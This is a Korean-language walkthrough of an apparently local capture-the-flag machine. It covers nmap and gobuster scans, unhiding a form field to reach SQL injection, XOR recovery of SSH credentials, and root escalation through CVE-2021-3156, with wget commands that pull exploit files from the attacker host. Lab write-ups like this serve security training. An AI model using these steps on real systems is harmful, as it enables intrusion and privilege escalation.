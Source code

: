 # XSS-CTF
2025-04-18 XSS-CTF  Walkthrough

네트워크 1-브리지 2-호스트

kali: 192.168.56.105
victim:192.168.56.143

nmap 192.168.56.0/24

nmap -A -sS -sC -p- 192.168.56.143


kali firefox에서 http://192.168.56.143 접속	//apache2 기본 페이지


## Scan

```
gobuster dir -u http://[xss-ctf ip] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,php,bak
```
/index.php  /index.html  /list.php  /add.php

## /index.php

![Image](https://github.com/user-attachments/assets/9e901dce-29de-4b1e-b9ac-374a0d2eecc1)

들어가보았지만 Not Found가 뜬다. 그래서 web source페이지를 보았다.

![Image](https://github.com/user-attachments/assets/aa4d56d4-28ef-4e82-9b66-baba5fad9edc)

/H10000.txt
![Image](https://github.com/user-attachments/assets/520576de-79c4-4553-8a39-dfd7805ed9fb)
H10000 값


## /list.php

index.php에서 Not Found가 떠서 list.php를 들어가면 다음과 같은 글이 작성되어있다

![Image](https://github.com/user-attachments/assets/432de6fe-9e2c-43fd-85b5-cea0166608b3)

M1,M2,M3,M4 값이 중요하기 때문에 복붙

1번 게시글 삭제 후 /index.php 를 다시 들어가면 정상적인 페이지가 뜬다는 것을 확인할 수 있다

![Image](https://github.com/user-attachments/assets/3662b62c-6cd9-4126-a512-355c599517ab)

![Image](https://github.com/user-attachments/assets/e761c310-7b48-4307-bef6-122f69671eff)

![Image](https://github.com/user-attachments/assets/47239fa6-b91f-4f44-a8a0-5117113147f2)

## /add.php

http://192.168.56.143/add.php에서 View Source Code를 들어가서 보면 쿼리 작성폼이라는 주석이있는 줄에 쿼리 작성 폼과 ID 조회하는 코드에 type=”hidden”이 되어 있는 것을 알 수 있다.

!!!!!!!!!!!!!!!!!!!!!


개발자 도구 -F12
<!- -MySQL 쿼리 입력 폼 -- > 주석 확인
type=”hidden” 2개 확인 가능

!!!!!!!!!!!!!!!!!!!!!!!!!

type=”hidden” 삭제

type=”hidden” -> type=”submit” 변경


Mysql 쿼리 입력 부분 출력됨
!!!!!!!!!!!!!!!!!!

SQL Injection 공격 가능 – userID DB 확인 가능

!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!


## XOR 연산

XOR 변환기 http://kor.pe.kr/util/4/xor_convert.htm

/list.php 에서 얻은 M1,M2,M3,M4 값과 /H10000 에서 얻은 H10000 값으로 XOR 연산

이 과정은 총 2가지로 풀 수 있다.

1번 방법: 

192.168.56.143/index.php에서 다음과 같은 식을 제공하였다. 이때 P=Password다. 

M1=userID ⨁ K ⨁ H9999

M2=serverID ⨁ K ⨁ H9999 

M3=H10000 ⨁ P

M4=H9999 ⨁ 

P=H10000⨁M3를 통해 Password=df93ef64167b2334664ff59a5b8185f5값을 구하면 M4를 통해 H9999를 구할 수 있다. H9999=M4⨁P 이후 M1을 이용하여 K를 구할 수 있다. 이때 UserID는 위의 SQL Injection으로 찾아낸 UserID 중 하나씩 다 대입하면 UserID=Ocean777Timewarp를 넣어서 계산하다보면 그럴듯한 K=secretpassword12값이 나온다. 그 다음 M2에서 serverID=M2⨁H9999를 구할 수 있다. serverID=cr0sss1tescr1pt9 이제 서버의 ID와 Password를 전부 찾았다.

2방법: 

M1=userID ⨁ K ⨁ H9999

M2=serverID ⨁ K ⨁ H9999 

M3=H10000 ⨁ P

M4=H9999 ⨁ P

P=H10000⨁M3를 통해 Password=df93ef64167b2334664ff59a5b8185f5를 구한 후 M1⨁M2=userID⨁serverID가 나오고 SQL Injection으로 찾아낸 userID를 하나씩 대입하면 serverID= cr0sss1tescr1pt9가 나온다. 이렇게 하면 굳이 H9999값과 K값을 구하지 않아도 ServerID값을 구할 수 있다.


## SSH 접속

userID :
cr0sss1tescr1pt9

password :
df93ef64167b2334664ff59a5b8185f5

![Image](https://github.com/user-attachments/assets/93817ac5-e880-4dd2-bf48-1dcaf8cbc4ac)


## User Flag

![Image](https://github.com/user-attachments/assets/67b27143-5b03-4bef-ae07-28b84f7f9b08)


## Root Flag

root로 권한 상승 - sudoedit

![Image](https://github.com/user-attachments/assets/860113b8-fe28-4892-b37d-67c51934209d)

https://github.com/blasty/CVE-2021-3156  참조

- brute.sh , hax.c , lib.c 파일 생성

cr0sss1tescr1pt9 사용자는 vi,vim,nano 사용할 수 없다.

kali-root 계정에서 /var/www/html/ 디렉터리에 파일 생성 후, cr0sss1tescr1pt9 사용자 계정에서 wget으로 파일을 다운로드한다.

![Image](https://github.com/user-attachments/assets/55b9071e-acd5-4125-a93a-0b9bf4691f41)
```
wget http://[kali ip]/brute.sh
```
![Image](https://github.com/user-attachments/assets/efbcb372-cd7d-44e4-a68f-a7b37b068949)
```
wget http://[kali ip]/hax.c
```
![Image](https://github.com/user-attachments/assets/a66c7d11-fd0d-44d6-928b-d18b5c20d8f6)
```
wget http://[kali ip]/lib.c
```
![Image](https://github.com/user-attachments/assets/1e57f253-9b9a-4791-a059-c80f5fb96e8a)

https://github.com/blasty/CVE-2021-3156 - Makefile 참고

![Image](https://github.com/user-attachments/assets/10a28bff-12d4-4aed-808a-d153e2604233)







